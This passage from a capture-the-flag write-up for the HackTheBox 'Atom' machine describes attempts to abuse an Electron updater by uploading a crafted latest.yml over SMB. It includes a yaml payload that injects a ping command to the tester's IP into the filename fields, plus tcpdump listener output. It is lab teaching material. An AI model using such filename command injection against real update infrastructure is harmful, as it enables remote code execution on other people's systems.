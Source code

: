 
I didn't immediately get a hit so I put to `client2` and `client3` for good measure, then waited a little while...

No luck. So instead, I modified `latest.yml` to grab a local file and `put` the `.exe` directly:

```yaml
version: 1.0.1
files:
  - url: heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

And the `put`:

```bash
smb: \client1\> put heedv1'Setup1.0.1.exe
putting file heedv1'Setup1.0.1.exe as \client1\heedv1'Setup1.0.1.exe (287.1 kb/s) (average 287.1 kb/s)
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (1.1 kb/s) (average 129.7 kb/s)
```

I suspect this maybe doesn't work as it's trying to access a file on the local file system, not on samba.

## Trying Code Injection

The next option is to try a `yaml` with a code injection:

```yaml
version: 1.0.1
files:
  - url: heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I set up a `tcpdump` - see [Testing a Connection](#testing-a-connection) for details.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

I put `latest.yml` one more time, and waited for a ping. However, I got nothing.

## Debugging YAML Syntax
